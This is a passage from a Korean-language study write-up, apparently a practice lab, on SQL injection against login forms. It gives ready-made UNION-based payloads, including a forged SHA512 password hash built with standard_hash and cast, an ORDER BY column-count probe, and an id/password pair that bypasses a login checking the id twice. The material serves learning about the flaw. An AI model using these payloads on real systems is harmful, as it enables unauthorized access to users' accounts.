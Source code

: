 - 서버에서 완성된 쿼리문<br>
`select id,hashpwd from members where id='2' union select 'user2', cast(standard_hash('user2','SHA512') as char(128)) from dual where '1'='1'`<br>
![Pasted image 20230419145543](https://user-images.githubusercontent.com/31990118/233049659-a8d081d7-b534-4236-917d-9fa5306b7205.png)
<br>![Pasted image 20230419145554](https://user-images.githubusercontent.com/31990118/233049710-435711d1-158a-4f42-849a-ace70d6b1dcc.png)

- standard_hash('user2','SHA512') 로 나오는 결과와 table 에 저장된 hash 로 암호화 된 패스워드는 타입이 다르다.
- 따라서 **cast 함수**를 이용하여 타입을 **char(128)** 로 변경하였다.

<br><br>



#### 5. 식별과 인증을 따로 할 때(+ id 두번 확인하기 )

>로그인방법
1.  유저가 입력한 id와 `sql 질의문`을 통해 id 정보와 비밀번호 정보를 불러온다.<br>`select id,PASSWORD from members where id='아이디' and id='아이디'`
2. 여기서 id를 두번 확인한 것을 알 수 있다.
3. 입력받은 비밀번호와 db 에서 불러온 비밀번호를 비교하여 일치하는지 확인한다.
4. 일치하면 db 에서 불러온 id 정보를 통해 나머지 유저 정보도 불러온다.<br>`select * from members  where id='db에서 불러온 id정보';` 

>로그인 코드<br>
<script src="https://gist.github.com/MinGyu2/4838aebdc75359591b92074aff22d9b9.js"></script>

>정상적인 로그인<br>
![Pasted image 20230419150308](https://user-images.githubusercontent.com/31990118/233050196-c0143052-3671-4b80-b093-26faa1a48362.png)
<br>![Pasted image 20230419150324](https://user-images.githubusercontent.com/31990118/233050247-58e103c1-83b5-4b53-bde1-bfff07bae2f4.png)


<br>
>정확한 컬럼 수 찾기
- `order by` 를 이용한다.
- `user2' order by 2 -- ` 로그인 성공<br>![Pasted image 20230419145849](https://user-images.githubusercontent.com/31990118/233050601-910ace99-8195-40c5-a231-ef871db2e4ab.png)<br>![Pasted image 20230419150003](https://user-images.githubusercontent.com/31990118/233050662-6455b018-b493-4f44-94fa-21555d6111c5.png)
-  `user2' order by 3 -- ` 로그인 실패
- 즉 컬럼의 수는 2개 라는것을 알 수 있다.

<br>

>공격방법

- **union + 주석 사용**

| | 입력|
| --- | ---|
|id| `x' union select 'user2','a' from dual -- `|
|pwd| `a`|

- 서버에서 완성된 쿼리문<br>
`select id,PASSWORD from members where id='x' union select 'user2','a' from dual -- ' and id='x' union select 'user2','a' from dual -- '`<br>![Pasted image 20230419150030](https://user-images.githubusercontent.com/31990118/233051049-a26dfe1e-a888-412b-a552-54f56d8b4f06.png)
<br>![Pasted image 20230419150041](https://user-images.githubusercontent.com/31990118/233051097-c07becb0-6e56-458a-b33d-1401cea13e36.png)
